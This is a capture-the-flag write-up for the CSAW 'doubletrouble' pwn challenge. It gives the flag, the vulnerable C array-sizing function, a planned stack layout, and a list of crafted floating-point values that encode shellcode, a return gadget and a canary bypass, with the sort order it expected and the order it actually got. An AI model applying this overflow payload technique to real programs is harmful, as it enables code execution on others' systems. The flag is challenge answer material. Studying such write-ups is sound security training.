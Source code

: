 # doubletrouble

> Did you know every Number in javascript is a float
>
> `pwn.chal.csaw.io:9002`
>
> nsnc
>
> [doubletrouble](/files/1615e939e4ae439f743a908512e8384b/doubletrouble)

```
flag{4_d0ub1e_d0ub1e_3ntr3ndr3}
```

### Bug

Increase array size and then **sorting**:

```c
int findArray(int *size, double *arr, double low, double high)
{
  int m_size = *size;
  while (*size < (m_size + m_size)) {
    if ((low < arr[*size - m_size]) && (arr[*size - m_size] < high)) {
      return *size - m_size;
    }
    *size += 1;
  }
  *size = m_size;
  return 0;
}
```

### Expected behavior

Stack like this

```r2
array @ ebp - 0x210       : our shellcode
                padding
stack canary @ ebp - 0xc  : same position
saved eip                 : ret gadget
eip + 4                   : address of shellcode
```

Our wantings:
```py
arr = [
    -4.95775736208594e+303,     # shellcode
    -1.1189208665250963e+294,   # shellcode
    -6.9244620785013907e+274,   # pad
    -6.9244620785013907e+274,   # pad
    -99,                        # stop
    4.8732919059184379e-270,    # ret gadget
    5.2054332253030052e-270,    # adddress of shellcode
    -6.9244620785013907e+274,   # pad
    -1.6037741937463733e+166,   # ebp + canary
    -5.675039066493109e+269,    # ebx + esi
    4.8729344732129195e-270,    # ebp + eip
    2.1195160399160686e-314,    # previous frame
]

# Expected
b = sorted(arr)
b == [
    -4.95775736208594e+303,     # shellcode
    -1.1189208665250963e+294,   # shellcode
    -6.9244620785013907e+274,   # pad
    -6.9244620785013907e+274,   # pad
    -6.9244620785013907e+274,   # pad
    -5.675039066493109e+269,    # ebx + esi
    -99,                        # stop
    2.1195160399160686e-314,    # previous frame
    ???,                        # ebp + canary
    4.8729344732129195e-270,    # ebp + eip
    4.8732919059184379e-270,    # ret gadget
    5.2054332253030052e-270,    # adddress of shellcode
]

# Actual
b = sorted(arr)
b == [
    -4.95775736208594e+303,     # shellcode
    -1.1189208665250963e+294,   # shellcode
    -6.9244620785013907e+274,   # pad
    -6.9244620785013907e+274,   # pad
    -6.9244620785013907e+274,   # pad
    -5.675039066493109e+269,    # ebx + esi
    -1.6037741937463733e+166,   # ebp + canary
    -99,                        # stop
    2.1195160399160686e-314,    # previous frame
    4.8729344732129195e-270,    # ebp + eip
    4.8732919059184379e-270,    # ret gadget
    5.2054332253030052e-270,    # adddress of shellcode
]
```

### References

https://ctftime.org/writeup/11201
https://ctftime.org/writeup/11220
